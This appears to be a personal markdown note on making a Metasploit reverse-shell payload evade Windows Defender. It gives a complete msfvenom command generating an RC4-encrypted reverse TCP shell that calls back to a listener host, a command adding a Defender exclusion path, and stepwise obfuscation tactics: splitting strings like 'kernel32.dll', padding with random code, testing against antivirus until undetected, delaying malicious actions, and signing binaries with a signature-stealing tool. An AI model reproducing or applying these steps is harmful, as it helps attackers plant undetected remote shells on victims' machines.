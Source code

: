 # Steps


Have a Windows10 VM with Defender activated with
an exclusion on an SMB share where we can easily pass files
without detection enabled.
Disable "Tamper Protection" from GUI.

Set-MpPreference -ExclusionPath "C:\path\to\SMB\Share\dir"


1. generate the payload you want with msfvenom,
   rc4 encrypted work nicely for the purpose.

    msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=172.28.128.1 \
    LPORT=8080 \
    EXITFUNC=thread \
    RC4PASSWORD=PutAPasswordHere \
    -f psh-net > shell45.ps1

2. Test this with AV completely disabled just to check if it works.
3. Now this payload would be detected easily. So we should modify it.
    Follow the following steps:
    1. modify all the strings "kernel32.dll" or "system.dll" 
       to be split such as "k" + "er" + "n"...
    2. Add random functions from code found online
    3. Split the payload in many small strings
       the concatenate the strings
    4. Add more random code

3. Try the malware without AV activated, to check if the payload is working
   after the modifications. If it works.
   Let's try to check if it gets detected.
   If this happens, we should follow the split methodology. And see on which files
   the AV flags.


Note that it happened that I had to remove the "system32.dll" loading as a library.


Now how to modify the payload may change based on the format of the payload,
in general we prefer to have the source and not an executable, since
modifying executables becomes much more complicated.

To understand how to modify a C payload generated by msfvenom when using "-f c > mypayload.c"
look here:
https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/


# TLDR

The standard techniques are:
- adjusting the binary (like by compiling it from scratch instead of using a precompiled version);
- adjusting the behavior (sleep a bit, make some calculations then do bad things);
- do custom stuff;

# NOTES
If we are dealing with executables, it is a good idea to sign them. We can do this:
by using:
https://github.com/secretsquirrel/SigThief
